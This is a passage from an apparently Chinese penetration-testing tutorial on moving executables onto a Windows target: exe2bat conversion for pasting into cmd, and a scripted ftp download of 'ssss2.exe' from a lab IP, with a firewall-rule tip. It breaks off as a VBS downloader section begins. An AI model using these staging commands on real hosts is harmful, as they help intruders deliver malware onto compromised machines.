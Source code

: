 ```
cd /usr/share/windows-binaries
wine exe2bat.exe ssss2.exe ssss2.txt

```

执行后会生成ssss2.txt，将里面的内容复制粘贴到cmd命令行下依次执行

执行后会生成1.dll、123.hex、ssss.exe

如图

![Alt text](http://drops.javaweb.org/uploads/images/490f1330a6b3e55c15c8ef5641956571302ec907.jpg)

**注：**  
exe2bat不支持大于64kb的文件 debug默认只支持在32位系统

如图

![Alt text](http://drops.javaweb.org/uploads/images/362c5463ba32f0054df197c4f7259490d88e44f6.jpg)

### 2、ftp

搭建好ftp服务器：

```
ip:192.168.174.151
文件:ssss2.exe

```

按顺序执行如下代码即可通过ftp来下载文件

cmd：

```
echo open 192.168.174.151 21> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo ftp>> ftp.txt
echo GET ssss2.exe >> ftp.txt
ftp -s:ftp.txt

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/630a274fc00ac3f6faa78034d560226e7ed06d7f.jpg)

**注：**  
初次使用ftp下载防火墙会弹框拦截，使用前记得要先添加防火墙规则

### 3、vbs

vbs downloader,使用msxml2.xmlhttp和adodb.stream对象

如下代码保存为.vbs文件：
